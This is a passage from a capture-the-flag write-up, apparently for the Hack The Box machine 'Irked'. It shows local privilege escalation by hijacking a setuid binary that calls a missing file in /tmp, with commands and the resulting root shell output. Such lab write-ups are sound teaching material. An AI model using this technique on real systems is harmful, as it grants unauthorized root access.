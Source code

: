 ```console
/bin/su
/bin/mount
/bin/fusermount
/bin/ntfs-3g
/bin/umount
```

The view `/usr/bin/viewuser` stands out as atypical.

```text
ircd@irked:~$ file /usr/bin/viewuser
/usr/bin/viewuser: setuid ELF 32-bit LSB shared object, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=69ba4bc75bf72037f1ec492bc4cde2550eeac4bb, not stripped
ircd@irked:~$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2024-06-28 15:40 (:0)
ircd     pts/1        2024-06-28 16:23 (10.10.14.10)
ircd     pts/2        2024-06-28 17:08 (10.10.14.10)
sh: 1: /tmp/listusers: not found
```

It's calling `/tmp/listusers` which doesn't exist. Since I can write to that directory, I can put `/bin/sh` there for a shell.

```text
ircd@irked:~$ cp /bin/sh /tmp/listusers
ircd@irked:~$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2024-06-28 15:40 (:0)
ircd     pts/1        2024-06-28 16:23 (10.10.14.10)
ircd     pts/2        2024-06-28 17:08 (10.10.14.10)
# id
uid=0(root) gid=1001(ircd) groups=1001(ircd)
```

## Open Questions

I got lost down a deep `rpcbind` rabbit hole. Is there something there?

## Credits

I missed the setuid binary on my first pass, and spent two hours researching `rpcbind`. This [writeup from snowscan](https://snowscan.io/htb-writeup-irked/) is a little outdated--it looks like HTB changed the box since it was written, e.g. `/home/djmardov/.backup` no longer exists. But, it still helped point me in the right direction for PE.
